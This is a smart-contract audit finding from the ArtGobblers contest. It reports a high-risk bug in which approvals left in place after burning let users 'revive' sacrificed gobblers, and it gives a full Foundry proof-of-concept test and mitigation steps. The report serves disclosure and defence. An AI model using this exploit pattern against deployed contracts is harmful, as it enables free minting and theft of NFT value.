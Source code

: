 ## Tags

- bug
- 3 (High Risk)
- primary issue
- sponsor confirmed
- selected for report

# [Can Recover Gobblers Burnt In Legendary Mint](https://github.com/code-423n4/2022-09-artgobblers-findings/issues/219) 

# Lines of code

https://github.com/code-423n4/2022-09-artgobblers/blob/d2087c5a8a6a4f1b9784520e7fe75afa3a9cbdbe/src/ArtGobblers.sol#L432
https://github.com/code-423n4/2022-09-artgobblers/blob/d2087c5a8a6a4f1b9784520e7fe75afa3a9cbdbe/src/ArtGobblers.sol#L890


# Vulnerability details

## Impact
Allows users to mint legendary Gobblers for free assuming they have the necessary amount of Gobblers to begin with. This is achieved by "reviving" sacrificed Gobblers after having called `mintLegendaryGobbler`.

## Severity Justification
This vulnerability allows the violation of the fundamental mechanics of in-scope contracts, allowing buyers to purchase legendary Gobblers at almost no cost outside of temporary liquidity requirements which can be reduced via the use of NFT flashloans.

## Proof of Concept (PoC):
Add the following code to the `ArtGobblersTest` contract in  `test/ArtGobblers.t.sol`  and run the test via `forge test --match-test testCanReuseSacrificedGobblers  -vvv`:
```solidity
function testCanReuseSacrificedGobblers() public {
	address user = users[0];

	// setup legendary mint
	uint256 startTime = block.timestamp + 30 days;
	vm.warp(startTime);
	mintGobblerToAddress(user, gobblers.LEGENDARY_AUCTION_INTERVAL());
	uint256 cost = gobblers.legendaryGobblerPrice();
	assertEq(cost, 69);
	setRandomnessAndReveal(cost, "seed");

	for (uint256 curId = 1; curId <= cost; curId++) {
		ids.push(curId);
		assertEq(gobblers.ownerOf(curId), users[0]);
	}

	// do token approvals for vulnerability exploit
	vm.startPrank(user);
	for (uint256 i = 0; i < ids.length; i++) {
		gobblers.approve(user, ids[i]);
	}
	vm.stopPrank();

	// mint legendary
	vm.prank(user);
	uint256 mintedLegendaryId = gobblers.mintLegendaryGobbler(ids);

	// confirm user owns legendary
	assertEq(gobblers.ownerOf(mintedLegendaryId), user);

	// show that contract initially thinks tokens are burnt
	for (uint256 i = 0; i < ids.length; i++) {
		hevm.expectRevert("NOT_MINTED");
		gobblers.ownerOf(ids[i]);
	}

	// "revive" burnt tokens by transferring from zero address with approval
	// which was not reset
	vm.startPrank(user);
	for (uint256 i = 0; i < ids.length; i++) {
		gobblers.transferFrom(address(0), user, ids[i]);
		assertEq(gobblers.ownerOf(ids[i]), user);
	}
	vm.stopPrank();
}
```

## Tools Used
Manual review.

## Recommended Mitigation Steps
Ensure token ownership is reset in the for-loop of the `mintLegendaryGobbler` method. Alternatively to reduce the gas cost of `mintLegendaryGobbler` by saving on the approval deletion, simply check the `from` address in `transferFrom`, revert if it's `address(0)`. Note that the latter version would also require changing the `getApproved` view method such that it checks the owner of the token and returns the zero-address if the owner is zero, otherwise the `getApproved` method would return the old owner after the underlying Gobbler was sacrificed.

